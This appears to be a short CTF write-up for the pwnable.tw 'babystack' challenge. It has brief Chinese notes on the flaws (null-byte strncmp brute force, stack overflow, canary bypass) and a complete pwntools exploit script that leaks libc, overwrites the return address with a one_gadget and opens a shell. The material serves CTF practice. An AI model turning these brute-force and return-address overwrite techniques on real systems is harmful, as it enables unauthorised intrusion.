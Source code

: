 ```yaml
---
title: babystack-writeup
date: 2018-08-14 17:50:38
tags:
---
```

strtol() 函数用来将字符串转换为长整型数(long)

为什么运行不起来？

- Dynelf
copy 函数，strcpy 栈溢出 
- func1中的比较长度是根据我们输入的字符串的strlen来决定的,因此我们输入\x00截断,从而一位位爆破出16字节的rand.
- read_n不会追加0字节
- 爆破密码，如果read_input中输入"\x00"，即可控制strncmp的n，从而逐个字节爆破出password
- 观察栈中有几个libc地址

- 覆盖返回地址为onegadget
- 最后有canary 要过

https://diabolo94.github.io/2017/12/10/utimatebinary/


from pwn import *

debug=0
e=ELF('./libc.so')
one_offset=0xf0567
if debug:
    p=process('./babystack',env={'LD_PRELOAD':'./libc.so'})
    context.log_level='debug'
    gdb.attach(proc.pidof(p)[0])
else:
    p=remote('chall.pwnable.tw', 10205)
    context.log_level='debug'


def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def login(pwd,lo=True):
    if lo:
        se('1'+'a'*15)
    else:
        se('1')
    ru('Your passowrd :')
    se(pwd)
    return ru('>> ')

def logout():
    se('1')
    ru('>> ')

def copy(content):
    se('3'+'a'*15)
    ru('Copy :')
    se(content)
    ru('>> ')

def Exit():
    se('2')

def guess(length,secret=''):
    for i in range(length):
        for q in range(1,256):
            if 'Success' in login(secret+chr(q)+'\n',False):
                secret+=chr(q)
                logout()
                break
    return secret

secret=guess(16)

login('\x00'+'a'*0x57)
copy('a'*40)
logout()
base=u64(guess(6,'a'*16+'1'+'a'*7)[24:]+'\x00\x00')-324-e.symbols['setvbuf']

one_gadget=base+one_offset

payload='\x00'+'a'*63+secret+'a'*24+p64(one_gadget)

login(payload)

copy('a'*0x30)

Exit()

print(hex(base))

p.interactive()

